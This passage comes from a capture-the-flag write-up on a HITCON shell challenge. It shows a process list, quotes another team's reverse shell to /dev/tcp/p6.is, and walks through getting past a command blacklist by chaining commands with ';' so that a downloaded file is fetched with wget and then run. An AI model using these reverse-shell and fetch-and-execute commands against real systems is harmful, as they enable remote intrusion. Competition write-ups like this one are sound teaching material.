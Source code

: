 ```
19865 1128     /bin/bash -i
20201 1128     /bin/sh -c busybox sh
20202 1128     busybox sh
20326 root     [kworker/0:2-cgr]
20365 1128     python3 -c import pty; pty.spawn("/bin/bash")   <- 🤔
23368 1128     vim                                             <- 🤔
24865 1128     python3 /babyshock2020.py
24866 1128     /bin/sh -c busybox sh
25564 1128     python3 /babyshock2020.py
25565 1128     /bin/sh -c busybox sh
25566 1128     busybox sh
25575 1128     bash
...
25868 1128     {exe} ps
```

We can actually a see a few reverse shells from other teams still running! For
example, we can see the reverse shell of [posix](https://p6.is/) from
[The Flat Network Society](https://github.com/TFNS/) here:
```
bash -c bash -i >& /dev/tcp/p6.is/4444 0>&1
```

But how were they able to use blacklisted characters like `- > & /`?
Then I saw this line:
```
sh index.html
```

What if we put a bash script at some `domain.com`, download it, and then execute
it? That would allow us to bypass the blacklist. To test it, I ran this:
```
> pwd ; wget google.com
> /hitcon/<my_ip>
Connecting to google.com (216.58.197.174:80)
Connecting to www.google.com (216.58.220.100:80)
index.html           100% |*******************************| 14037   0:00:00 ETA
> pwd ; file index.html
> /hitcon/<my_ip>
index.html: HTML document, ASCII text, with very long lines
> pwd ; bash index.html
> /hitcon/<my_ip>
index.html: line 1: syntax error near unexpected token `<'   <-- Expected, since it's just HTML right now
```

Great, downloading and executing a file looks like it will work. Now we just to
need put a bash script on a server that can be reached from the shell. However,
when I tried to few different servers, I got this:
```
> pwd ; wget 12.345.67.89
> bad command: pwd ; wget 12.345.67.89       <-- Multiple periods in one command not allowed
> pwd ; images.google.com
> bad command: pwd ; wget images.google.com  <-- Multiple periods
> pwd ; wget google.com/test
> bad command: pwd ; wget google.com/test    <-- Slash not allowed
```
